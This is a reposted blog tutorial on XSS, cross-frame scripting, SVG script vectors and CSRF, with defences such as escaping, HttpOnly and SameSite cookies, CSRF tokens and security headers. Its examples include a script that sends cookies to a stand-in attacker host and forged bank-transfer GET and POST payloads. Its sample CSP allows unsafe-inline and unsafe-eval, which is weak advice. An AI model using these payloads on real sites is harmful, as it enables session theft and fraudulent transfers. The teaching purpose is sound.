 ```yaml
---
layout: post
title: "Prevent XSS and CSRF attacks on your website"
date: 2019-08-19 00:00:00 +0300
description: "what are xss and csrf attacks and how can we prevent them?" # Add post description (optional)
img: prevent-xss-csrf.png # Add image post (optional)
fig-caption: none # Add figcaption (optional)
tags: ['csrf','xss','browser','attack','xfs','security','web','hacking','cookies','website','svg']
categories: ['Security']
---
```


### 1. **What is XSS: Cross-site scripting?**

In case of XSS, the attacker makes the victim's browser execute a script (mostly JavaScript) that has been injected by the attacker while visiting a trusted web site. The attacker has several ways of injecting the JavaScript into a web site that the victim trusts.

XSS doesn't need an authenticated session and can be exploited when the vulnerable website doesn't do the basics of validating or escaping input.

When the server doesn't validate or escape input as a primary control, an attacker can send inputs via request parameters or any kind of client side input fields (which can be cookies, form fields or url params). These can be written back to screen, persisted in database or executed remotely.

Be aware using shorten URLs as you don't know where they can lead! First check where the hidden link leads using unshorten.it. After receiving the final link, check it out on the VirusTotal website. It is also suggested to have it as a browser extension.

### 2. **Reflected XSS (aka Non-Persistent or Type II XSS)**

Reflected attacks are those where the malicious script is reflected by a web server and then executed by the the web browser. In this type of attack a user is tricked into clicking a link, or filling in a form, that has the script hidden in it. This can be achieved by sending an email, or posting the link on a forum.

As the domain that the victim can see in the URL is well known and trusted, the victim won't expect any harm behind it. When this is submitted to the server it will be rejected and reflected back to the browser. Many servers will send the input back in text format so the browser can display the input that was rejected. If this text is a valid script then the browser will execute it as it is coming from a trusted source. The attacker could use the victim's CPU to calculate bitcoins in the browser or could steal the victim's cookie.

```html
https://google.com?query=<script>new Image().src="http://attackerurl.org/storecookie?cookie="+document.cookie;</script>
```
![reflected xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-1.png)

### 2. **Stored XSS (aka Persistent or Type I XSS)**

Besides injecting the script using query parameters, the attacker may also inject the script persistenly into a web site's storage. The storage can be in a database, in a web page component like a message forum, visitor log, comment field, or other element that goes to make up a page to deliver to a user. In case, a forum that doesn't validate the user's input, website could be compromissed by posting something that contains the malicious script. The malicious script is delivered along with the normal web content and the client executes it. Every user of the forum that reads the attacker's post will become a victim.

![stored xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-2.png)

### 3. **What is XFS: Cross Frame Scripting?**

Cross-Frame Scripting (XFS) is an attack that combines malicious JavaScript with an iframe that loads a legitimate page in an effort to steal data from an unsuspecting user. This attack is usually only successful when combined with social engineering. An example would consist of an attacker convincing the user to navigate to a web page the attacker controls. The attacker's page then loads malicious JavaScript and an HTML iframe pointing to a legitimate site. Once the user enters credentials into the legitimate site within the iframe, the malicious JavaScript steals the keystrokes.

The X-Frame-Options HTTP response header can be used to indicate whether or not a browser should be allowed to render a page in a <frame>, <iframe>, <embed> or <object>. Sites can use this to avoid clickjacking attacks, by ensuring that their content is not embedded into other sites.

```html
X-Frame-Options: deny
X-Frame-Options: sameorigin
X-Frame-Options: allow-from https://example.com/
```

### 3. **JavaScript in image tags**

Directly injecting JavaScript code in the source attribute of <img> tag is no longer possible on modern browsers.

But SVG is an XML based vector graphic format, therefore it invokes the XML parser in the browser. Moreover, <script> tag is allowed in the SVG, so JavaScript can be embed directly into SVG.

Browsers that support SVG inside <img> tags do not support scripting inside the context. **But you should not  use SVG inside <embed> or <object> tags where scripting is supported by browsers!**

![stored xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-3.png)

Allowing SVG inside <img>may be dangerous when:

* An XML parser is used to parse the SVG, whether it is inside the <img> or <object> tag. The parser is certainly tweaked with some parameters to ignore <script> tags in the <img> context. Yet, that is quite ugly, it is blacklisting a tag in a certain context. And blacklisting is poor security.
* <script> is not the only way to achieve execution context in SVG, there are also the onmouseover (and family) events present in SVG. This is again tricky to blacklist.
* The XML parser in browsers did suffer from problems in the past, notable with XML comments around script blocks. SVG may present similar problems.
* SVG has full support for XML namespaces. xlink:href is a completely valid construct in SVG and the browser inside the XML parser context will likely follow it.
Therefore, SVG opens several possible vectors to achieve execution context. And moreover, it is a relatively new technology and therefore not well hardened.

### 3. **What is CSRF: Cross-site request forgery?**

In a CSRF attack, the attacker tries to force/trick you into making a request which you did not intend, making use of the existing victim's context, such as cookies. Every time you interact with website, its server checks the cookie you send with the request so it knows it's you.

The level of the attack is based upon the level of privileges that the victim possessed. Because attacker will use the authentication that has gained in the current session to do the malicious task. This is the reason why this attack termed as Session Riding too.

#### **Using a GET request (rare case)**

CSRF happens in authenticated sessions when the server trusts the user\/browser. Let's consider an example when you are logged in into your banking site. An attacker can place a malicious link embedded in another link or zero byte image which can be like:

```html
<img src=yourbanking.com/transfer.do?to_account={attackers_account}&amt=2500>
```
Now, in the background transfer can happen though you clicked this link (of course, if your banking uses GET request for such actions without any confirmation). Depending on the vulnerable web site, using CSRF, attackers can also change your credentials or user profile properties.

#### **Using a POST request (common and most popular case)**

This attack requires the user to click the form button on hacker's website, then the malicious page could just as easily send the request by submitting the form.

```html
<h1>You Are a Winner!</h1>
<form action="http://yourbanking.com/api/account/transfer" method="post">
    <input type=hidden name=to_account value="attacker_id" />
    <input type=hidden name=amount value="1000000" />
    <input type=submit value="Click me to get your reward" />
</form>
```

After submitting the form user could figure out what happened, but it could be too late to revert or discard these changes.

![using a POST request ]({{site.baseurl}}/assets/img/prevent-xss-csrf-4.png)

Moreover, using SSL does not prevent a CSRF attack, because the malicious site can send an "https://" request. Typically, CSRF attacks are possible against web sites that use cookies for authentication, because browsers send all relevant cookies to the destination web site.

### 5. **Difference between XSS and CSRF**

Both these attacks seems to be very similar, as they are client-side attacks and doing quite similar things, enforcing some form of user activity (e.g. clicking a link or visiting a website).

In a cross-site scripting (XSS) attack, the attacker makes you involuntarily execute client-side code, most likely Javascript. In a cross-site request forgery (CSRF) attack, the attacker manipulates you to making a melicoius request to the server which you did not intend. This could be sending you a link that makes you involuntarily perform some action.

XSS is generally more powerful than CSRF because it usually allows the execution of arbitrary script code while CSRF is restricted to a particular action (e.g. changing the password). A successful XSS attack also effectively bypasses all anti-CSRF measures.

### 6. **Protect your website**

#### **Protect against XSS attack**

##### **Escape special characters, validate and sanitize inputs**

> Expect any untrusted data to be malicious. What's untrusted data? Anything that originates from outside the system and you don't have absolute control over so that includes form data, query strings, cookies, other request headers, data from other systems (i.e. from web services) and basically anything that you can't be 100% confident doesn't contain evil things.

> Troy Hunt

**Validating input** is the process of ensuring an application is rendering the correct data and preventing malicious data from doing harm to the site, database, and users. Input validation is especially helpful and good at preventing XSS in forms, as it prevents a user from adding special characters into the fields, instead refusing the request.

**Sanitizing data** is a strong defense, but should not be used alone to battle XSS attacks. Sanitizing user input is especially helpful on sites that allow HTML markup, to ensure data received can do no harm to users as well as your database by scrubbing the data clean of potentially harmful markup, changing unacceptable user input to an acceptable format.

**Escaping data** means taking the data an application has received and ensuring it’s secure before rendering it for the end user. By escaping user input, key characters in the data received by a web page will be prevented from being interpreted in any malicious way. In essence, you're censoring the data your web page receives in a way that will disallow the characters – especially < and > characters – from being rendered, which otherwise could cause harm to the application and/or users. If your page doesn’t allow users to add their own code to the page, a good rule of thumb is to then escape any and all HTML, URL, and JavaScript entities.

##### **HttpOnly flag for cookies**

The purpose of the HttpOnly flag is to make the value of the cookie unavailable from JavaScript, so that it can not be stolen if there is a XSS vulnerability.

Any attempt to access the cookie from client script is strictly forbidden. Of course, this presumes you have:

A modern web browser
A browser that actually implements HttpOnly correctly
The good news is that most modern browsers do support the HttpOnly flag. Regardless, HttpOnly cookies are a great idea, and properly implemented, make common XSS attacks much harder to pull off.

HttpOnly cookies don't make you immune from XSS cookie theft, but they raise the bar considerably. Anyway, a "set it and forget it" setting is pretty secure as all modern browsers implemented client-side HttpOnly cookie security correctly.

##### **Security headers**

The HTTP Content-Security-Policy response header allows web site administrators to control resources the user agent is allowed to load for a given page. With a few exceptions, policies mostly involve specifying server origins and script endpoints. This helps guard against cross-site scripting attacks (XSS).

```html
Content-Security-Policy: default-src https:; script-src https: 'unsafe-eval' 'unsafe-inline'; style-src https: 'unsafe-inline'; img-src https: data:; font-src https: data:; report-uri /csp-report
```
The X-XSS-Protection header is designed to enable the cross-site scripting (XSS) filter built into modern web browsers. This is usually enabled by default, but using it will enforce it.

```html
X-XSS-Protection: 1; mode=block
```

A 0 value disables the XSS Filter. A 1 value enables the XSS Filter. If a cross-site scripting attack is detected, in order to stop the attack, the browser will sanitize the page.

A 1; mode=block value also enables the XSS Filter and rather than sanitize the page, when an XSS attack is detected, the browser will prevent rendering of the page.

#### **Protect against CSRF attack**

##### **Using CSRF-token**

Because of your session is active in the browser and it has your session id, CSRF attack can happend. This is the reason the most popular CSRF protection is having another server supplied unique token generated and appended in the request as a hidden value in every state changing form which is present on the web application. This token, called a CSRF Token or a Synchronizer Token. This unique token is not something which is known to the browser like session id.

Instead of putting the anti-CSRF token in the cookie, the server needs to put it as a hidden parameter in a form. For every request involving some sensitive action, the browser will send this token also along with the request and the server, before performing the action, would verify if the token is the one that it had sent to the browser or not. This additional validation at server will make sure that the attacker manipulated link.

This protects the form against CSRF attacks, because an attacker has no way of performing this sensitive action on behalf of the user, as forging a request will also need to guess the anti-CSRF token. Unless an attacker won't successfully trick a victim into sending a valid request or somehow finds out the random anti-CSRF token itself.

**_This token should be invalidated after some time and after the user logs out. The token have to be unique per action and have to be valid only once. Never share tokens via URLs._**

##### **Using Same-site attribute for cookies**

CSRF attacks are only possible since Cookies are always sent with any requests that are sent to a particular origin (domain and path), which is related to that Cookie. Due to the nature of a CSRF attack, a flag can be set against a Cookie, tuning it into a same-site Cookie. A same-site Cookie is a Cookie which can only be sent, if the request is being made from the same origin that is related to the Cookie being sent. The Cookie and the page from where the request is being made, are considered to have the same origin if the protocol, port (if applicable) and host is the same for both.

When another site tries to request something from the web application, the cookie is not sent. This effectively makes CSRF impossible, because an attacker can not use a user's session from his site anymore.

There are two possible values for the same-site attribute:

* Strict: the cookie is withheld with any cross-site usage. Even when the user follows a link to another website the cookie is not sent.
* Lax: some cross-site usage is allowed. Specifically, if the request is a GET request and the request is top-level. Top-level means that the URL in the address bar changes because of this navigation. This is not the case for iframes, images or XMLHttpRequests.

| request type | html code example | cookie type |
|:------------------:|:--------------------:|:---------------------:|
| link | &lt;a href="..."> | normal, lax |
| prerender | &lt;link rel="prerender" href="..." /> | normal, lax |
| form GET | <form action="..."> | normal, lax |
| form POST | <form method="post" action="..."> | normal |
| iframe | <iframe src=...> | normal |
| image | <img src=...> | normal |
| AJAX | fetch('...') (JavaScript) | normal |

This table shows what cookies are sent with cross-origin requests. As you can see cookies without a same-site attribute (indicated by "normal") are always sent. **Strict cookies are never sent. Lax cookies are only send with a top-level get request.**

As you would expect strict mode gives better security, but breaks some functionality. Links to protected resources won't work from other sites. Even if you are logged in and have access to some resource, your strict cookies won't be sent when coming from another site. With lax mode, this still works, while providing decent security by blocking cross-site post requests.

The same-site attribute is a good method to protect against CSRF attacks, because it seems to the attacker as though you are no longer logged in to the website under attack.

##### **Using Referer, Origin, Host and X-Requested-With headers**

X-Requested-With: XMLHttpRequest HTTP header can prevent CSRF attacks because this header cannot be added to the AJAX request cross domain without the consent of the server via CORS. Without CORS it is not possible to add X-Requested-With to a cross domain XHR request. Only the following headers are allowed cross domain:

* Accept
* Accept-Language
* Content-Language
* Last-Event-ID
* Content-Type

Referer header tells server from where the request has originated. If the request is coming from unauthorized domain, then Referer header will contain that value and server can simply reject that request.

_These headers are great to additional check against CSRF attack, but do not rely only on them._

**Misunderstanding the Same Origin Policy (aka SOP) and what Cross-origin resource sharing (aka CORS) brings to the table**

All the SOP does, is prevent the response from being read by another domain (aka origin). This is irrelevant to whether a CSRF attack is successful or not. The only time the SOP comes into play with CSRF is to prevent any token from being read by a different domain.

CORS does not increase security, it simply allows some exceptions to take place. Some browsers with partial CORS support allow cross site XHR requests (e.g. IE 10 and earlier), however they do not allow custom headers to be appended. In CORS supported browsers the Origin header cannot be set, preventing an attacker from spoofing this.

All of the above has nothing to do with forged requests coming directly from an attacker. Remember, the attacker needs to use the victim's browser for their attack. They need the browser to automatically send its cookies. This cannot be achieved by a direct curl request as this would only be authenticating the attacker in this type of attack scenario (the category known as "client-side attacks").

### **Conclusion**

Both attacks have in common that they are client-side attacks and need some action of the end user, such as clicking on a link or visiting a web site. XSS executes a malicious script in your browser, CSRF sends a malicious request on your behalf.

###### **本文转载自Sergey Podgornyy的[《Prevent XSS and CSRF attacks on your website》](https://blog.larapulse.com/security/prevent-xss-csrf-attacks){:target="_blank"}**